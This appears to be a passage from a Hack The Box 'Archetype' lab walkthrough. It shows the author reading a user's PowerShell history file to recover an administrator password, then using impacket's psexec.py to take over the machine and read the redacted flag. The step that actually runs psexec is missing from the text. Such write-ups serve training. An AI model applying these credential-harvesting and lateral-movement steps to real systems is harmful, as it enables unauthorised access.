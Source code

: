 
Notice the file named **ConsoleHost_history.txt**, let’s see what’s in there :

```powershell
PS C:\Windows\system32> type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

We have creds, now we need a tool to log in as Administrator on our target PC and we cannot do it directly in our [Windows](../../../../3%20-%20Tags/Hacking%20Concepts/Windows.md) Powershell as we do in the Linux system. There is a tool from our impacket named **psexec.py** which will help us.

- Kill the PowerShell and mssqlclient on our machine.
- Let’s use our tool:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ locate psexec.py
/usr/share/doc/python3-impacket/examples/psexec.py
/usr/share/powershell-empire/empire/server/modules/powershell/lateral_movement/invoke_psexec.py
/usr/share/set/src/fasttrack/psexec.py

┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ cp /usr/share/doc/python3-impacket/examples/psexec.py .

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
 {{REDACTED_FLAG}}

```

Pwned !!